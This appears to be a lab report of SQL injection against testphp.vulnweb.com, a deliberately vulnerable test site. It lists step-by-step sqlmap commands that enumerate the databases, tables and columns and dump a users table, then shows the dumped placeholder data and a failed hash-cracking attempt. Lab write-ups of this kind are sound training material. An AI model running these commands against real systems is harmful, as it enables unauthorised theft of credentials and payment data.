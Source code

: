 SQL Injection Report  
 Target: [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)  
 Environment: Kali Linux on VMware  
 Date: 26th April 2025

Objective:  
 To perform SQL Injection on the target to enumerate databases, tables, columns, and dump sensitive data.

Tools Used:

* Operating System: Kali Linux (on VMware)

* Tool: sqlmap

Steps and Commands Used:

1. Testing the URL for SQL Injection and listing databases:  
    Command used:  
    sqlmap \-u "[http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)" \--dbs

Finding:  
 Found multiple databases, including one named 'acuart'.

2. Listing tables inside the 'acuart' database:  
    Command used:  
    sqlmap \-u "[http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)" \-D acuart \--tables

Finding:  
 Found tables, including a table named 'users'.

3. Listing columns inside the 'users' table:  
    Command used:  
    sqlmap \-u "[http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)" \-D acuart \-T users \--columns

Finding:  
 Found columns such as cc, cart, pass, email, phone, uname, name, and address.

4. Dumping all data from the 'users' table:  
    Command used:  
    sqlmap \-u "[http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)" \-D acuart \-T users \--dump

Finding:  
 Successfully extracted the following data:

* Name: John Smith

* Address: 21 street

* Username: test

* Password: test

* Email: email@email.com

* Phone: 2323345

* Credit Card Number (cc): 1234-5678-2300-9000

* Cart (MD5 hash): 3c038f135656b21d2f562c4d0c600118

5. Handling password hashes:  
    When sqlmap detected a hash in the 'cart' field, it asked if we wanted to store and attempt to crack it.

* Stored the hash in a temporary file.

* Attempted cracking with the default wordlist and common suffixes.

* Cracking attempt was unsuccessful; no clear password found.

Summary:  
 The target website was vulnerable to SQL Injection.  
 Databases, tables, columns, and actual sensitive data were successfully extracted.  
 Password cracking on the 'cart' field hash was attempted but not successful.

Conclusion:  
 SQL Injection was effective. Sensitive user information was exposed, including emails, passwords, credit card numbers, and phone numbers. The site is critically vulnerable and needs immediate remediation.

 <p><em>Image Section</em></br ></p>
 

